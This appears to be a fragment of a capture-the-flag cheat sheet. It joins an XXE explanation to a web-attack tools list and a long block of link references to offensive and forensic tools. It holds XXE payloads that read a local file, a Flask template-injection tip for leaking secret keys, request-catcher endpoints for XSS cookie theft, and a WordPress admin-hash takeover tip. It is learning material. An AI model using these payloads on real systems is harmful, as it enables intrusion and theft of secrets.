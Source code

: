 An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.
We try to display the content of the file /flag :

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///flag">
]>
<data>&file;</data>

<?xml version="1.0" encoding="UTF-16"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///flag" >]><foo>&xxe;</foo>

  ```
* Wordpress Password Hash Generator

	If you make it into a Wordpress database and can change passwords, reset the admin password to a new hash: [http://www.passwordtool.hu/wordpress-password-hash-generator-v3-v4](http://www.passwordtool.hu/wordpress-password-hash-generator-v3-v4). This will let you login to /wp-admin/ on the site.

* Cookie Catcher

* [`requestb.in`](https://requestb.in/)

	A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS] vulnerabilty.

* [`hookbin.com`](https://hookbin.com/)

	A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS] vulnerabilty.

* [`sqlmap`][sqlmap]

	A command-line tool written in [Python] to automatically detect and exploit vulnerable SQL injection points.

* Flask Template Injection

	Try `{{config}}` to leak out the secret key, or start to climb up the Python MRO to acheive code execution.

	[https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html](https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html), [https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html](https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html), [https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html](https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html)


* SQL `IF` statements

	These are handy for some injections and setting up some Blind SQL if you need to. Syntax is like `SELECT ( IF ( 1=1, "Condition successful!", "Condition errored!" ) )`


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[tcpflow]: https://github.com/simsong/tcpflow
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[StegSeek]: https://github.com/RickdeJager/stegseek
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2
[photorec]: https://www.cgsecurity.org/wiki/PhotoRec
[smbmap]: https://github.com/ShawnDEvans/smbmap
[oletools]: https://github.com/decalage2/oletools
[impacket]: https://github.com/SecureAuthCorp/impacket
[Responder]: https://github.com/SpiderLabs/Responder
[Responder.py]: https://github.com/SpiderLabs/Responder
[International Code of Signals Maritime]: https://en.wikipedia.org/wiki/International_Code_of_Signals
[maritime flags translator]: https://www.dcode.fr/maritime-signals-code
[static-binaries]: https://github.com/andrew-d/static-binaries
